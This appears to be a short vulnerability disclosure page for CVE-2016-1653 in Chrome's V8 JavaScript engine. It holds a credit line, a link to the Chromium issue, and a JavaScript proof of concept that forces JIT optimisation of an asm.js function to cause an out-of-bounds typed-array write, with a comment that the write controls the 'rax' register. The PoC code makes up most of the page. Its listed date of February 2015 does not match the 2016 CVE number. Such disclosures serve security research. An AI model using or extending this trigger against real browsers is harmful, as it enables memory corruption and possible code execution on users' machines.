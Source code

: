 # CVE-2016-1653

- Date: Feb 2015
- Credit: Choongwoo Han

## PoC

```javascript
boom=(function(stdlib,foreign,heap){
    "use asm";
    var Uint8ArrayView=new stdlib.Uint8Array(heap);
    var Int32ArrayView=new stdlib.Int32Array(heap);
    function f(i,i1){
        i1=Uint8ArrayView[256];
        // This following value '10' determines the value of 'rax'
        Int32ArrayView[i1>>10] = 0xabcdefaa;
        return(-i1+((Int32ArrayView[((i1))>>2])))}
return f
})(this,0, new ArrayBuffer(256));

for (var i = 0; i < 400; ++i) { // Trigger optimization
    boom(0, 0x1000);
}
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=589792)
